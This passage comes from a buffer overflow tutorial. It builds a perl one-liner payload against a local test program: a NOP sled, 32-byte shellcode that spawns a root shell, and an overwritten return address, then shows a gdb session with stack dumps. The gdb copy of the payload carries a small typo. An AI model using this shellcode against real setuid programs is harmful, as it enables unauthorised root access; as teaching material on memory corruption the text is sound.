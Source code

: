 ```
NOPs (72 bytes) + Shellcode (32 bytes) + ‘A’ characters (20 bytes) + Return address (4 bytes-pointing back to the NOPs area) = 72 + 32 + 20 + 4 = 128 bytes
```

Using the perl’s print command for easiness, our input/argument arrangement is as follows. This is a one line command.

```
`perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62
\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
```

In order to make our chances higher in hitting our shellcodes, we pad at the beginning of the stack with NOP (executable no-operation instruction-\x90 for x86).  Though guess work might still be required, the return address must not be as precise anymore; it is enough to hit the NOPs area.  Now our stack layout should be something like the following:

<img src="images/image062.png" /><br />
Figure 3: Spawning a root shell exploit - stack's content arrangement with NOPs and shellcodes.

Other Intel x86 instructions that can be used to replace NOPs (because NOPs are easily detected by Intrusion Detection System – IDS) can be found at the following links: [NOP equivalent instructions](http://www.tenouk.com/Bufferoverflowc/NOPequivalentinstructions.txt) or you can check the processor’s instruction set documentation. Next, let verify the return address of our program by running it in gdb with some sample input/argument as constructed previously.

```
[bodo@bakawali testbed2]$ gdb -q test
Using host libthread_db library "/lib/tls/libthread_db.so.1".
(gdb) break main
Breakpoint 1 at 0x80483ec: file test.c, line 7.
(gdb) r `perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f
\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`

Starting program: /home/bodo/testbed2/test `perl -e 'print "\x90"x72, "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69
\x89\xe3\x52\x53\x89\xe1\x8d\x42x0b\xcd\x80", "a"x20, "\xa0\xfb\xff\xbf"'`
Breakpoint 1, main (argc=2, argv=0xbffffa54) at test.c:7
7       if(argc <2)
(gdb) step
11      strcpy(buff, argv[1]);
(gdb) x/200x $esp
0xbffff940:     0x6f6e2800      0x0029656e      0xbffff994      0x00000000
0xbffff950:     0xbffff994      0x00000000      0x00000000      0x00000000
0xbffff960:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff970:     0x00000000      0x00000000      0x0177ff8e      0xbffffa00
0xbffff980:     0x0066e4f8      0x00000000      0x00000000      0x00000000
...
[Trimmed]
...
0xbffffa40:     0x08048484      0x006643d0      0xbffffa4c      0x0066af11
0xbffffa50:     0x00000002      0xbffffb5a      0xbffffb73      0x00000000
0xbffffa60:     0xbffffbf6      0xbffffc08      0xbffffc18      0xbffffc23
```